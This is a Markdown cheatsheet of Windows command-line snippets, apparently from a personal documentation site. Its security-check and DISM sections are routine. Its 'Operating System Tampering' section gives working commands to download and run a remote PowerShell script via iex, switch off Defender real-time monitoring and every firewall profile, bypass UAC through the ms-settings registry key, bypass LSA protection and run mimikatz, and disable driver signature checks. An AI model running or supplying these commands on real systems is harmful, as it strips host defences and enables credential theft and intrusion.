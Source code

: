 ```yaml
---
layout: default
title: Useful daily Windows CLI
parent: Windows
categories: Windows Sysadmin
grand_parent: Cheatsheets
---
```

<!-- vscode-markdown-toc -->
* 1. [Security Checks](#SecurityChecks)
	* 1.1. [listing kb](#listingkb)
	* 1.2. [windows firewall status](#windowsfirewallstatus)
	* 1.3. [windows defender status](#windowsdefenderstatus)
* 2. [Operating System Tampering](#OperatingSystemTampering)
	* 2.1. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 2.2. [windows defender: disable](#windowsdefender:disable)
	* 2.3. [windows firewall: disable](#windowsfirewall:disable)
	* 2.4. [windows uac: bypass](#windowsuac:bypass)
	* 2.5. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 2.6. [Windows driver signature: disable](#Windowsdriversignature:disable)
* 3. [Windows DISM](#WindowsDISM)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

# {{ page.title }}

##  1. <a name='SecurityChecks'></a>Security Checks

###  1.1. <a name='listingkb'></a>listing kb
```batch
wmic qfe list full /format:table
```

###  1.2. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
```

###  1.3. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  2. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  2.1. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  2.2. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  2.3. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  2.4. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  2.5. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  2.6. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

##  3. <a name='WindowsDISM'></a>Windows DISM
```batch
DISM /online /get-features /format:table | more
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more
DISM /online /get-featureinfo /featurename:
get-windowsoptionalfeature -online | ft | more
get-windowsoptionalfeature -online | where state -like disabled* | ft | more
get-windowsoptionalfeature -online | where state -like enabled* | ft | more
get-windowsoptionalfeature -online -featurename *media*
```